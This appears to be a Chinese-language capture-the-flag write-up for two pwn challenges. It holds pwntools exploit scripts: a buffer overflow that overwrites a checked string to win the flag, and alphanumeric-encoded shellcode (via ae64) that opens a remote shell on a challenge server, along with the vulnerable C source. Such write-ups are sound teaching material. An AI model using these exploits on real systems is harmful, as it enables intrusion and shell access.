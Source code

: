 ln24 會比對 `__haystack` 是否包含 `pwn3d!!!`，我們可以利用 ln23 的 buffer overflow，覆寫 `__haystack`，這樣就能拿到 flag。

exploit:
```python
from pwn import *

#r = process("./chal_23")
r = remote("chal.nhnc.ic3dt3a.org", 2000)

payload = b"a"*16 + b"cat_sleeping\x00"
r.sendlineafter(b":", payload)

payload = b"a"*32 + b"pwn3d!!!\x00"
r.sendlineafter(b":", payload)

r.interactive()
```

### Filtered
```c
#include <stdio.h>

#define SHELLCODE_LENGTH 0x1000

int main() {
	char shellcode[SHELLCODE_LENGTH];

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);

	puts("Speak English *ONLY* !!!");
	puts("No more crazy stuffs like binary !!!");
	scanf(" %[a-zA-Z0-9]", shellcode);
	((void (*)(void))shellcode)();
}
```
這段程式碼會開一個空間讓我們輸入，然後跳到那個空間執行。但輸入只能是英文字母（大小寫）、數字、空格。

可以用這個腳本來產生符合條件的 shellcode：https://github.com/veritas501/ae64

exploit:
```python
from ae64 import AE64
from pwn import *
context.arch='amd64'

r = remote("chal.nhnc.ic3dt3a.org", 2001)

# 生成 shellcode
shellcode = asm(shellcraft.sh())

# 生成符合條件的 shellcode
enc_shellcode = AE64().encode(shellcode)

r.recvlines(2)
r.sendline(enc_shellcode)

r.interactive()
```
